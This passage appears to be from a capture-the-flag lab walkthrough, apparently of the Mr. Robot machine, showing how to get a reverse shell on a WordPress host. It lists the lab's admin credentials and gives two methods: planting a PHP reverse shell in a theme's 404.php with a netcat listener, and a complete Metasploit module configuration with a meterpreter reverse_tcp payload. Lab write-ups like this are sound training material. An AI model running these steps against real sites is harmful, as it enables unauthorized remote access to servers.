 ## Step 6: Reverse Shell
- **Objective:** Gain remote access to the target system.
- **Tools:** PHP Reverse Shell, Metasploit



### Manual PHP Reverse Shell
1. **Upload a PHP Reverse Shell:**
   - Go to the WordPress admin panel at `http://192.168.1.226/wp-admin` and log in using the credentials found or brute-forced.
   - Navigate to Appearance > Theme Editor, select the `404.php` file, and insert the PHP reverse shell code from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

2. **Start a Netcat Listener:**
    ```bash
    nc -lvnp 4444
    ```

3. **Trigger the Reverse Shell:**
   - Visit the modified `404.php` file in your browser to trigger the reverse shell.
    ```bash
    http://192.168.1.226/wp-content/themes/[your-theme]/404.php
    ```

### Using Metasploit
1. **Start Metasploit:**
    ```bash
    msfconsole
    ```

2. **Select the Exploit Module:**
    ```bash
    use exploit/unix/webapp/wp_admin_shell_upload
    ```

3. **Set Required Options:**
    ```bash
    set RHOSTS 192.168.1.226
    set RPORT 80
    set USERNAME Elliot
    set PASSWORD ER28-0652
    set TARGETURI /wp-admin
    set LHOST 192.168.1.223
    set LPORT 4444
    set payload php/meterpreter/reverse_tcp
    set VERBOSE true
    ```

4. **Run the Exploit:**
    ```bash
    exploit
    ```
